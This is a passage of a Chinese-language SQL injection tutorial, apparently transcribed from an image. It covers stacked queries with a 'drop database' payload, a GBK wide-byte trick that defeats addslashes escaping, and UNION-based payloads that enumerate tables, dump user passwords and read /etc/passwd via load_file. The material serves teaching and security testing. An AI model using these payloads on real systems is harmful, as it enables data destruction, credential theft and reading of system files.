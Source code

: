 #### 堆叠注入

如果服务端支持多条 SQL 指令：

```sql
1'; drop database;#
```

#### 宽字节注入

如果数据库编码为 GBK，就可以防止网站的转义让我们的引号被拦住。

```php
php > $s = "1%df'";
php > var_dump(addslashes($s));
string(6) "1%df\'"
```

```plain
id = 1%df' ->
id = 1%df\' ->
id = 1%df%5c%27 ->
id = 1運'
```

对面转义了我们的引号，然而加入的反斜杠 `%5c` 和前面的 `%df` 变成了一个汉字，对单引号的转义就失效了！

### 手工注入

看当前数据库：

```sql
' or (1) union select database()#
```

看数据库里的表：

```sql
' or (1) union select 1, 2, group_concat(table_name) from
information_schema.tables where TABLE_SCHEMA = 'webdb'#
```

看表里的列：

```sql
' or (1) union select group_concat(column_name) from
information_schema.columns where TABLE_NAME = 'USERS'#
```

看数据：

```sql
' or (1) union select password from webdb.USERS#
```

看文件内容：

```sql
1' or (1) union select load_file('/etc/passwd')#
```